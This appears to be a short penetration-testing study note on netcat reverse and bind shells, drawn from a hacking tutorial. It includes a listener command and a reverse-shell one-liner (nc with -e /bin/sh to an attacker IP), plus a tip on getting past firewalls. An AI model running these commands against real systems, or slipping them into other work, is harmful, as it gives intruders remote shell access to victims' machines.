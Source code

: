 

#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![[Pasted image 20240613164237.png]]


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

## **Netcat Bind Shells** - an attacker connects to the victim

![[Pasted image 20240613164741.png]]


NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW
